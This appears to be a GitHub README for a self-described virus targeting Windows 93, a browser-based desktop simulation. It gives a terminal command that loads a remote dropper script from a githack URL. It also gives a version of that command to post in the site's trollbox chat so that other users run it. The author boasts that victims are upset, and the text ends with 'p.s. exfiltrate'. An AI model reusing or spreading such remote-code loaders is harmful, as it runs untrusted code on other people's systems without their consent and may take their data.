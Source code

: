 # Basic93Virus
Very basic virus for windows 93    

## How to run

To load, use terminal command:    
`js $loader(["https://raw.githack.com/OutRite/Basic93Virus/main/dropper.js", $noop])`    
Spread via trollbox as message:    
`/exe js $loader(["https://raw.githack.com/OutRite/Basic93Virus/main/dropper.js", $noop])`

## Does it work?
YES apparently. Never seen it for myself but some people are crying about it now ._.

## Why does it sometimes take long to update
githack is not ok    
p.s. exfiltrate

